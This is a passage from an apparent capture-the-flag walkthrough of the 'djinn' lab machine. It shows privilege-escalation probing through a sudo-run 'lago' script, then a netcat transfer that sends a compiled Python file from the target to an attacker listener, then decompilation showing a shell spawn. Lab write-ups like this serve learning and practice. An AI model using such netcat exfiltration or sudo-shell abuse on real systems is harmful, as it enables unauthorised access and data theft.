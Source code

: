 ```bash
sam@djinn:/home/sam$ sudo /root/lago
sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100: 
Enter your number: /bin/sh
/bin/sh
Better Luck next time
```

Listing in the sam's home directory, I found a compiled python file, execute it, and I can see that it's related to the lago script.

```bash
sam@djinn:/home/sam$ ls -la
...
-rw-r--r-- 1 sam  sam    1749 Nov  7  2019 .pyc
...
```

```bash
sam@djinn:/home/sam$ python .pyc
python .pyc
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice: 1
1
Working on it!!
```

Then I transfer this script to my machine, for this we firt set up a netcat listener on the attacking machine as shown: 

```bash
root@kali:~$ nc -vlnp 443 > pyc
listening on [any] 443 ...
```

And on the target machine we execute the following netcat command:

```bash
sam@djinn:/home/sam$ nc 192.168.179.1 443 < .pyc
```

Ones downloaded the file, we'll try to decompile it to be able to read the code in plain text. For This we first need install the **decompyle3** utility and then decompile it, as shown below:

```bash
root@kali:~$ pip3 install decompyle3

root@kali:~$ decompyle3 pyc
...
def guessit():
    num = randint(1, 101)
    print("Choose a number between 1 to 100: ")

    try:
        s = input("Enter your number: ") 
        if s == num:
            system("/bin/sh")

```